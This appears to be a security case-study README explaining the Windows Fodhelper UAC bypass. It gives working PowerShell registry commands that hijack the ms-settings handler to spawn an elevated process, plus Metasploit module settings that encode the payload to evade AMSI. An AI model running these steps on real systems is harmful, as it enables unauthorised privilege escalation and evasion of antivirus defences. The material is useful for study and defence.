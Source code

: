 ## What's FodHelper?
The Fodhelper binary runs as _high integrity_, and as we will demonstrate, it is vulnerable to exploitation due to the way it interacts with the Windows Registry. More specifically, it interacts with the current user's registry, which we are allowed to modify.

This case study leverages a [UAC](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-account-control-works) bypass that abuses the Fodhelper.exe application. This particular UAC bypass still works on the most recent Windows version at the time of this writing and does not rely on writing a file to disk.

## Theory
As reported in the original blog post, Fodhelper tries to locate the following registry key:
```PATH
HKCU:\Software\Classes\ms-settings\shell\open\command
```

If we create the registry key and add the _DelegateExecute_ value, Fodhelper will search for the default value _(Default)_ and use the content of the value to create a new process.
If our exploit creates the registry path and sets the _(Default)_ value to an executable (like powershell.exe), it will be spawned as a high integrity process when Fodhelper is started.

## Manual Bypass
We can use powershell to create the needed registry keys with associated values required to launch PowerShell.

The first command creates the registry path through the New-Item cmdlet and the -Path option. Additionally, it sets the value of the default key to "powershell.exe" through the -Value option while the -Force flag suppresses any warnings.

In the second command, the _DelegateExecute_ value is created through the similar New-ItemProperty cmdlet, again using the -Path option along with the -Name option to specify the value and the -PropertyType option to specify the type of value, in this case a String.\

Finally, fodhelper will be executed.

The 3 commands will be as follows:
```Powershell
New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value powershell.exe –Force

New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
```Powershell
C:\Windows\System32\fodhelper.exe
```

## Automated Bypass
We can also use the metasploit module to bypass uac using fodhelper:
exploit/windows/local/bypassuac_fodhelper

Our exploit does not work- as Windows AMSI qurantines the threat, however, by using an encoder with the following commands:
```sh
set EnableStageEncoding true
set StageEncoder x64/xor_dynamic
```
We can encode our payload to bypass UAC.

Running the exploit gives us an elevated shell.

__RESET ASMI__
```Cmd
reg add "HKCU\Software\Microsoft\Windows Script\Settings" /t REG_DWORD /v AmsiEnable /d 1 /f